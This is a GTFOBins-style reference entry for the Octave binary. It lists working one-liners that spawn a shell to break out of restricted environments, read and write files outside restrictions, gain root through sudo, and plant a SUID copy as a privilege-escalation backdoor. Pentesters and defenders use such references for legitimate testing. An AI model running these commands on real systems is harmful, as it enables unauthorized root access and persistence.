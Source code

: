 # GTFOBin: octave

The payloads are compatible with GUI.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
octave-cli --eval 'system("/bin/sh")'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
octave-cli --eval 'filename = "file_to_write"; fid = fopen(filename, "w"); fputs(fid, "DATA"); fclose(fid);'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
octave-cli --eval 'format none; fid = fopen("file_to_read"); while(!feof(fid)); txt = fgetl(fid); disp(txt); endwhile; fclose(fid);'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo octave-cli --eval 'system("/bin/sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which octave) .

./octave-cli --eval 'system("/bin/sh")'
```